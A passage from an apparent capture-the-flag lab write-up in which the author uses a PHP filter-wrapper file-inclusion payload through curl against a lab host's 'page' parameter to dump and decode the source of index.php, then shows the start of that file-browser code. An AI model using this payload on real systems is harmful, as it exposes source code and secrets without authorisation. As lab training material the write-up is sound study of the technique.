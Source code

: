 ![Untitled](/Vulnhub-Files/img/Silence/Untitled%204.png)

I got the parameter as `page` so lets see some files , firstly the `index.php` file lets see how it is working the File Browse part →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ curl 'http://10.150.150.55/trick.php?page=php://filter/convert.base64-encode/resource=index.php' | base64 -d > index.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6260  100  6260    0     0  16625      0 --:--:-- --:--:-- --:--:-- 16604
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ cat index.php
<html>
<head>
  <title>File Browser</title> 
  <style type="text/css">
    .error{ color:red; font-weight:bold; }
  </style>
  	<link href="./style.css" rel="stylesheet" type="text/css" media="screen" />
    <script src='jquery.js'></script>
    <script>
      function searchfile()
      {
        var searchval=$("#searchtut").val();
		$("#bloc").html("<b>Browsing Location: </b><a href='index.php'><b>Demo</b></a>");
        if(searchval!="")
        {
			$.ajax({//Make the Ajax Request
			   type: "POST",
			   url: "ajax-search.php",
			   data:{searchtxt:searchval},
			   success: function(data){				
				$("#shead").css('display','block');
				//alert(">>>"+data+"<<<<");
				if(data!='\n' && data!='') {
```